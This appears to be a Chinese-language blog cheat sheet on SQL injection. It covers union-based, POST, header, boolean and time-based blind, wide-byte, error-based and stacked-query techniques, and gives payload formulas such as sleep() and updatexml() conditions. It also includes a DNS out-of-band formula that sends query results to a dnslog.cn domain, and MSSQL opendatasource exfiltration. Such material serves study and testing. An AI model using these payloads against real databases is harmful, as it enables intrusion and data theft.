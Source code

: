 ```yaml
---
title: 注入之看我72变
---
```




**注入：核心是什么？把输入当作代码，可以是url,可以是表单，还可以是数据包中的任何一个参数**

**以下皆以以MySQL为例，如有特例会注明。**

**如果觉得描述的过于简单，会有详述文章供参考。**

<!--more-->

### **显错注入**

网页页面中在与数据库交互过程中会在特定位置显示数据库中的数据

通过特殊语句来用特定字符来占领显错位，将显错位替换为sql语句，即可得到数据库数据

1.判断是否存在注入

2.判断字段数

3.判断显错位

4.判断库名

5.判断表名

6.判断列名

7.寻找具体数据

**用到的语句关键词**

order by（排序，用来判断字段数）

union select （联合查询，用来查询自己想要得到的数据）

database()（可以用来查询数据库）

limit 0,1（限制输出，0表示下标，1表示数量）

information_schema(mysql数据库5.0及以上版本，自带数据库，他记录了mysql数据库下所有的数据库名，表名，列名信息)

information_schema.tables(记录表名信息的表)

information_schema.columns(记录列名信息的表)

table_name （表名）

column_name （列名）

table_schema （数据库名）

**仅供参考：https://blog.csdn.net/qq_35569814/article/details/100154816**

### **post注入**

post注入就是使用POST进行传参的注入，本质上和GET类型的没什么区别。只不过是一个在url,一个在输入框。其他的注入方式与显错相差不大。

**仅供参考：https://blog.csdn.net/qq_35569814/article/details/100154816**

### **DNS注入**

**DNS注入的原理？**

域名**DNS**指向的是我们服务器的域名，意味着解析域名时需向**DNS**服务器查询。通过递归查询可以获取数据库上的信息。要记住整个域名内的节点标签被限制在**63**个字符长度大小。

**注意：**

**1.dns 查询有长度限制，所以当查询结果数据过长时需要截断**

**2.特殊符号，如@，一般先编码后再带出**

**弱点：目标得有网络，windows自带SMB,而Linux不自带**

**核心：盲注变显错**

***公式：load_file(concat(‘//‘,(sql查询语句),’.dnslog.cn提供的域名/1.txt’))\***

**使用条件：**

1. 有sql注入点

2. 该站点的load_file可以使用

   （参考：https://www.cnblogs.com/wjrblogs/p/14367387.html ）

**利用一个通道，把查询到数据通过通道带出去，这里的通道包括：http请求、DNS解析、SMB服务等将数据带出。**

**仅供参考：https://blog.csdn.net/qq_45300786/article/details/107764907**

### **反弹注入**

反弹注入就是就是将当前数据库中的查询结果发送到另一数据库服务器中，也是数据带外的一种。

依赖于函数**opendatasource**的支持，但仅限MSSQL。

**mssql对数据类型很严谨，占显错位一般用null**

**select id,name,xxx from sysobjects where xtype=’U’查询系统表**

**select xxx from syscolumns where id=sysobjects库中表名对应id**

**仅供参考：https://www.cnblogs.com/yanlzy/p/11938640.html**

### **header注入**

HEAD注入顾名思义就是在传参的时候，将我们的数据构建在http头部。

**head注入就是http请求头中的参数与数据库交互就可能存在注入，例如cookie注入也是header注入的一种,常见的还有UA,Referer,XFF等等**

**仅供参考：https://blog.csdn.net/qq_45300786/article/details/107137042**

### **布尔盲注**

函数 length()，返回长度
substr(截取的字符串，开始位，长度)

**盲注没有回显但是我们可以通过函数爆破来得到对应的信息，例如函数length()可以得到字符串长度，然后通过ascii(substr())截取字段爆破来匹配对应位数的字母的ascii码，通过ASCII表 http://ascii.911cha.com/ 查询对应的字母或者符号。温馨提示：ASCII码可显示的编号为32-126**

**思路总结：爆破长度=>分割字段=>爆破匹配ascii码=>对应得到字段**

**仅供参考：https://www.cnblogs.com/yanlzy/p/11884302.html**

### **时间盲注**

**延时注入：顾名思义，通过时间延时的表现，即通过改变响应时间判断，实现注入，也叫时间盲注。**
**所用函数：
sleep()
if(条件，条件成立执行语句，条件不成立执行语句)**

and if(**布尔盲注的语句**，sleep(5),1)，一般情况这么用即可

**仅供参考：https://www.cnblogs.com/yanlzy/p/11884302.html**

### **宽字节注入**

背景：php低版本会有魔术引号，遇到闭合符号会自动添加\,高版本是一个函数addslashes()
注入方法：1，寻找不用闭合 2，绕过函数作用域 3，宽字节注入
**宽字节注入核心：通过数据库编码特性，添加特殊符号(我习惯%df或者%dd)使得\失效凑成一个gbk字符，从而绕过系统遇到引号而自动添加一个\的特性**

**仅供参考：https://blog.csdn.net/heiseweiye/article/details/82723478**

### **报错注入**

利用了数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中

 示例公式：and updatexml(1,concat(‘1’,sql语句),1) 。其他的可以自己搜集。

**仅供参考：https://www.cnblogs.com/wocalieshenmegui/p/5917967.html**

### **堆叠注入**

堆叠注入，顾名思义，一堆 sql 语句(多条)一起执行。用分号表示上一个语句结束，构造新的语句。

其他不再细说，更多描述**参考：https://www.cnblogs.com/backlion/p/9721687.html**